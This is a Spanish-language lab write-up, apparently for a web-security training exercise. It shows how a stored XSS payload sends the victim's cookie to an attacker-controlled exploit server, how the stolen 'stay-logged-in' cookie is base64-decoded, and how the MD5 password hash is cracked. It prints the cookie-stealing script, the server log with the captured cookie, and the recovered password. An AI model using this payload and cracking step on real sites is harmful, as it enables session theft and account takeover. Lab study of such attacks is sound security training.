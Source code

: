 ![20250805010651.png](20250805010651.png)

```c
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

Cuando ingresamos y seleccionamos la opción de `stay logged in` observamos que este nos da una cookie el cual esta encodeada en base64 en el cual tiene el nombre del usuario `wiener` y la contraseña del usuario en md5

![20250805014609.png](20250805014609.png)

Luego de investigar el sitio web, observaremos que el sitio web es propenso a una xss 

![20250805015057.png](20250805015057.png)

Explotaremos xss para robar la cookie del usuario carlos

```c
<script>document.location='//exploit-0af700ed03f723a980530266015400f4.exploit-server.net/'+document.cookie</script>
```

Luego debemos ir a los  logs del servidor del atacante veremos la solicitud

![20250805015112.png](20250805015112.png)

Ahora tenemos la cookie del usuario carlos, para ello debemos crackaerla y obtener la contraseña en texto plano

```c
10.0.3.35       2025-08-05 06:49:34 +0000 "GET /secret=jJKzAytNBtDuKh331wkWGJKFYROPyAyr;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```c

❯ echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz"| base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943

```

Para crackear el hash en md5 usaremos `crackstation`

![20250805015427.png](20250805015427.png)

```c
carlos: onceuponatime
```